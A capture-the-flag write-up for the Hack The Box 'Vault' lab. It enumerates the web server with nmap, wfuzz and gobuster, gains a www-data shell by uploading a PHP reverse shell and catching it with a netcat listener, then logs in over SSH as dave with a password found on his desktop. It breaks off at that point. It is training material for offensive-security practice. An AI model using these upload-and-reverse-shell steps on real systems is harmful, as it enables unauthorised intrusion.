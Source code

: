 # Hackthebox - Vault

![Vault](../.res/htb-vault.png)  

## Nmap

```bash
┌─[✗]─[gabrielle@parrot]─[~]
└──╼ $sudo nmap -p- -sV -sC 10.10.10.109
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-26 20:05 EDT
Nmap scan report for 10.10.10.109
Host is up (0.057s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a6:9d:0f:7d:73:75:bb:a8:94:0a:b7:e3:fe:1f:24:f4 (RSA)
|   256 2c:7c:34:eb:3a:eb:04:03:ac:48:28:54:09:74:3d:27 (ECDSA)
|_  256 98:42:5f:ad:87:22:92:6d:72:e6:66:6c:82:c1:09:83 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.91 seconds
```  

## Port 80

We have this page  
![Homepage](../.res/2024-10-26-20-19-17.png)  

Wfuzz was useless from root but it mentionned a customer.  
If we try to go to /sparklays we get a Forbidden which means that we could try wfuzz again but with this.  

I had to wfuzz multiple times but here are the commands and interesting results I got:  

```bash
wfuzz -c --hc 404 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt http://10.10.10.109/sparklays/FUZZ
000000370:   301        9 L      28 W       323 Ch      "design"  

wfuzz -c --hc 404 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/Common-PHP-Filenames.txt http://10.10.10.109/sparklays/FUZZ

000000029:   200        3 L      2 W        16 Ch       "login.php"                                                                                                                  
000000016:   200        13 L     38 W       615 Ch      "admin.php"  

wfuzz -c --hc 404 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt http://10.10.10.109/sparklays/design/FUZZ

000000164:   301        9 L      28 W       331 Ch      "uploads" 
```

In the meantime, wfuzz was quite a pain so I tried gobuster which I usually prefer (but wanted to try out wfuzz lol).  
And I got this  
```bash
┌─[gabrielle@parrot]─[/usr/share/wordlists]
└──╼ $gobuster dir -u http://10.10.10.109/sparklays/design/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -x php,html
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.109/sparklays/design/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 308]
/.html                (Status: 403) [Size: 309]
/uploads              (Status: 301) [Size: 331] [--> http://10.10.10.109/sparklays/design/uploads/]
/design.html          (Status: 200) [Size: 72]
```

So from these we have:

```bash
http://10.10.10.109/sparklays/design/uploads/
http://10.10.10.109/sparklays/admin.php
http://10.10.10.109/sparklays/login.php
http://10.10.10.109/sparklays/design/design.html
```

- On login.php we get an access denied
- But on admin.php we get a login page

![Login](../.res/2024-10-26-20-44-30.png)  

I tried bruteforcing along with possible weak password but did not get anywhere.  

- On /design/design.html we get this  
![design](../.res/2024-10-26-21-01-54.png)  

- And if we click on change logo we end up here so we can play with the upload function.  

![change logo](../.res/2024-10-26-21-02-54.png)  

I tried a few file extensions and got this working with php5.  
So I downloaded `php-reverse-shell.php5` on the server after modifying the file with my ip address.  
I set up my listener `nc -nlvp 4444`  
And then I accessed this page from the browser (remember the uploads directory we found before)  
http://10.10.10.109/sparklays/design/uploads/php-reverse-shell.php5

And I got a shell as `www-data`:  

![Shell](../.res/2024-10-26-21-20-13.png)  

I chose to play with this machine because I wanted to practice pivoting.  
So let's check what we have available here in terms of network with `arp -a` (if for some reason arp -a does not work a friend of mine uses a cool command `for i in {1..254} ;do (ping 192.168.122.$i -c 1 -w 5  >/dev/null && echo "192.168.122.$i" &) ;done`).  
But here arp -a works and we get this:  
![arp a](../.res/2024-10-26-21-33-31.png)  
But first let's see if we can mobe to a user. if we ls on /home we have 2 users dave and alex.  
If we go to dave's Desktop we find this.  
![Password for ssh](../.res/2024-10-26-21-36-06.png)  
So let's try to ssh as Dave (with the password we found `Dav3therav3123`). It works:  
![ssh dave](../.res/2024-10-26-21-37-24.png)  

![Coming soon](../.res/coming-soon.png)  
